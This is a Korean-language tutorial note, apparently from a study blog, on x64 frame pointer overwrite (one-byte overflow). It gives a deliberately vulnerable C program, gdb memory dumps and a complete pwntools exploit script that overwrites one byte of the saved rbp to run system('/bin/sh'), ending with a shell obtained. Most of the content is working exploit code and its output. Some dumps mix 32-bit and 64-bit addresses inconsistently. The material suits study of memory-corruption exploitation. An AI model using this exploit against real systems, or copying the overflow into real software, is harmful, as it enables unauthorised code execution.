 ## Concept

Frame Poineter를 1byte 덮어써 코드의 흐름을 변경하는 기법. One-byte Overflow라고도 한다.

## **Proof of Concept**

```c
// Vuln Code
// gcc -fno-stack-protector -o fpo fpo.c -ldl
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
#include <stdlib.h>
 
void vuln(){
    char buf[32];
    printf("buf[32] address : %p\n",buf);
    void (*printf_addr)() = dlsym(RTLD_NEXT, "printf");
    printf("Printf() address : %p\n",printf_addr);
    read(0, buf, 49);
}
 
void main(int argc, char *argv[]){
    if(argc<2){
        printf("argv error\n");
        exit(0);
    }
    vuln();
}
```

buf는 32 byte지만 read를 49 byte하여 bof 발생.

```
0x7ffe119a28b0:	0x4141414141414141         0x4141414141414141
0x7ffe119a28c0:	0x4141414141414141         0x4141414141414141
0x7ffe119a28d0:	0x4141414141414141         0x4141414141414141
0x7ffe119a28e0:	0x00007ffe119a2942 <= rbp  0x000000000040079b 
0x7ffe119a28f0:	0x00007ffe119a29e8         0x0000000200000000
```

&buf+4(0xbfa07cfe)의 마지막 byte(0xfe)를 EBP의 마지막 바이트에 삽입.

```
gdb-peda$ x/24x $ebp
0xbfa07d02:	0x43434343	0x44444444	0x45454545	0x46464646
0xbfa07d12:	0x47474747	0x48484848	0x80ecb70a	0x0002b7d2
```

1 byte 오버플로를 통해 rbp 변경 확인.

```
gdb-peda$ x/24gx $rbp
0x7ffe119a2942:	0x29e0000000000040	0x000000007ffe119a
0x7ffe119a2952:	0x0000000000000000	0x2989000000000000
0x7ffe119a2962:	0x29894ef138aa26b6	0x00004ff63f51fb46
```

leave 명령으로 인해 rbp 레지스터 값은 rsp에 저장됨.  
따라서 1 byte 변조하여 RTL 코드 또는 Shellcode가 저장된 영역을 가리키게 한다면 Shell 획득 가능.

## **Exploit Code**
```python
# Exploit Code
from pwn import *

p=process(['./fpo','a'])
buf = p.recvline()
libc = p.recvline()

onebyte = int(buf.split(' ')[3][12:14],16)
libcBase = int(libc.split(' ')[3],16) - 0x55800
system = libcBase + 0x45390
binsh = libcBase + 0x18cd57
exit = libcBase + 0x3a030
poprdi = 0x400803

print('one byte: '+hex(onebyte))
print('libcBase: '+hex(libcBase))
print('system(): '+hex(system))
print('/bin/sh: '+hex(binsh))
print('exit: '+hex(exit))
print('pop rdi: '+hex(poprdi))

exploit_code = "A"*8
exploit_code += p64(poprdi)
exploit_code += p64(binsh)
exploit_code += p64(system)
exploit_code += "A"*(48-len(exploit_code))
exploit_code += p64(onebyte)

p.sendline(exploit_code)

p.interactive()
```

## **Exploit**
```shell
pwner@bs-virtual-machine:~$ python exploit.py 
[+] Starting local process './fpo': pid 10373
one byte: 0x50
libcBase: 0x7fe3ad0be000
system(): 0x7fe3ad103390
/bin/sh: 0x7fe3ad24ad57
exit: 0x7fe3ad0f8030
pop rdi: 0x400803
[*] Switching to interactive mode
$ id
uid=1001(pwner) gid=1001(pwner) groups=1001(pwner)
```

**Refereces**  
[https://www.lazenca.net/display/TEC/02.Frame+Pointer+Overwrite%28One-byte+Overflow%29+-+x64](https://www.lazenca.net/display/TEC/02.Frame+Pointer+Overwrite%28One-byte+Overflow%29+-+x64)

